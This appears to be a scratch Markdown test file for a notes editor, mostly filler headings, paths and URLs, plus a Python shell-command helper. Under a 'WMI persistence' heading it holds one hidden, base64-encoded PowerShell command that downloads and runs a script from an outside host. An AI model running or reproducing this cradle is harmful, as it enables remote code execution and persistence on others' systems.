 
#  test
aaa
a
a

##  tata

bb
###  tata
###
####  tata
#####  tata

#### tata
### tata

### where 



####### This is true


FF7B00
foo
 fdsfsd
 sfds 
 TODO 
 test
TODO
DONE
https://test.com
http://test.com
c:\\windows
C:\\windows
here is : /root/test

/home/cc/github/notes/2fa_domain_admin.md
2fa_domain_admin.md
;;

# tata
tomatoc

`
def sh(cmd, stdin="", sleep=False):
    """ run a command, send stdin and capture stdout and exit status"""
    if sleep:
        time.sleep(0.5)
    # process = Popen(cmd.split(), stdin=PIPE, stdout=PIPE)
    process = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE)
    process.stdin.write(bytes(stdin, "utf-8"))
    stdout = process.communicate()[0].decode('utf-8').strip()
    process.stdin.close()
    returncode = process.returncode
    return returncode, stdout

### WMI persistence

``
powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA
